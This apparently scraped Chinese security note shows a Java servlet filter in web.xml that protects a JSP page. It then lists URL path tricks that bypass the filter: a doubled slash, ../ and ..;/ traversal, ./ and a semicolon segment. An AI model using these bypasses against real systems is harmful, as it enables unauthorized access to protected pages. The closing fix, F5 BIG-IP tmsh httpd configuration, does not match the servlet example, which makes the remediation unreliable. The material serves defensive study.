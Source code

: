 编辑 web.xml，添加 testFilter 设置：

```xml
<?xml version="1.0"encoding="UTF-8"?>
<web-appxmlns="http://xmlns.jcp.org/xml/ns/javaee"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaeehttp://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
        version="4.0">
   <filter>
       <filter-name>testFilter</filter-name>
       <filter-class>filter.testFilter</filter-class>
   </filter>
   <filter-mapping>
       <filter-name>testFilter</filter-name>
       <url-pattern>/*</url-pattern>
   </filter-mapping>
</web-app>
```

运行之后，访问 http://localhost:8080/urltest/info/secret.jsp 会显示无权限，可用的绕过方法有下面几种：

```
加/绕过：http://localhost:8080//urltest/info/secret.jsp
跨目录：http://localhost:8080/urltest/anything/../info/secret.jsp
或 http://localhost:8080/urltest/anything/..;/info/secret.jsp
./绕过：http://localhost:8080/urltest/./info/secret.jsp
;绕过：http://localhost:8080/urltest/;anything/info/secret.jsp
```

 

### 靶场

无

### 修复

1. 登陆 TMOS Shell（**tmsh**）执行：

`tmsh`

2. 修改 httpd 配置信息：

```
edit /sys httpd all-properties
```

3. 找到`include` 部分并添加以下内容：

```
include'
<LocationMatch“;”>
Redirect404 /
</ LocationMatch>
'
```
